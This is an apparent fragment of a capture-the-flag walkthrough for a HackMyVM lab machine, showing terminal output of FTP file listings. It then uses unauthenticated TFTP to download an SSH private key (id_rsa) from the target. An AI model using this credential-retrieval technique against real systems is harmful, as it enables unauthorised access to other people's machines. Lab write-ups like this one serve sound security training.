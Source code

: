 ```bash
==> TYPE I ... done.  ==> CWD not needed.                                                                                                                                 
==> PORT ... done.    ==> LIST ... done.                                                                                                                                  
                     
…

Look through all the files. http://192.168.56.24/index.html

┌──(root💀kali)-[/opt/hackmyv/hommie]
└─# ls -la 
total 28
drwxr-xr-x  3 root root 4096 Dec 25 23:09 .
drwxr-xr-x 11 root root 4096 Dec 25 22:10 ..
drwxr-xr-x  3 root root 4096 Dec 25 23:09 192.168.56.24

┌──(root💀kali)-[/opt/hackmyv/hommie/192.168.56.24]
└─# ls -laR
.:
total 16
drwxr-xr-x 3 root root 4096 Dec 25 23:09 .
drwxr-xr-x 3 root root 4096 Dec 25 23:09 ..
-rw-r--r-- 1 root root    0 Sep 30  2020 index.html
-rw-r--r-- 1 root root  249 Dec 25 23:09 .listing
drwxr-xr-x 2 root root 4096 Dec 25 23:09 .web

./.web:
total 16
drwxr-xr-x 2 root root 4096 Dec 25 23:09 .
drwxr-xr-x 3 root root 4096 Dec 25 23:09 ..
-rw-r--r-- 1 root root   99 Sep 30  2020 index.html
-rw-r--r-- 1 root root  187 Dec 25 23:09 .listing
```

No luck

## TFTP - UDP 69

Trivial file protocol uses UDP port 69 and **requires no authentication**—clients read from, and write to servers.

Let's see if there is a id_rsa stored in the tftp server.


```bash
┌──(root💀kali)-[/opt/hackmyv/hommie]
└─# tftp 192.168.56.24                                                                                                                                              
tftp> get id_rsa
Received 1850 bytes in 0.0 seconds
tftp> quit
```
